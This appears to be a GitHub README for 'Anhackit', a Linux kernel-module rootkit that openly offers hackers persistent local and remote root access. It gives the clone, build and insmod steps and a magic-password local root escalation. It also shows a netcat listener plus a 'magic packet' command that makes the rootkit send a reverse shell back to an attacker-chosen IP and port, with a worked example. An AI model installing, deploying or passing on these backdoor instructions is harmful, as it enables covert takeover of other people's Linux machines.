 # Anhackit - Local & Remote Rootkit for Linux

This is a simple rootkit/kernel module for Linux that
allow hacker to maintain a local and a remote root access.

# Make & install the rootkit

```bash
  git clone https://github.com/anhackin/anhackit
  
  cd anhackit
  
  [edit the conf.h as you want]
  
  make
  
  insmod anhackit.ko
  
  done!
```



# Local use

```bash
  gcc helloworld.c -o helloworld
  
  ./helloworld <magic_password>
  
  Got root!
```



# Remote use

First, create a netcat listening for a reverse shell:

```bash
  nc -lvp <port>
```


Second, send the magic packet to the rootkit:

```bash
  gcc magic_packet_sender.c -o magic_packet_sender
  
  [sudo] ./magic_packet_sender <source_ip> <dest_ip> <dest_port> <payload>
```
NB: Where <payload> is the rootkit password.


Finally, got root on the reverse shell sended to <source_ip> on <dest_port>!



NB: The rootkit send back a reverse shell to the magicpacket's source ip on the destination port.
    For example if you send the magic packet like this:
    
```bash
  [sudo] ./magic_packet_sender 109.89.103.38 172.217.20.78 8888 anhackin
```

  You will get back a reverse shell on 109.89.103.38:8888
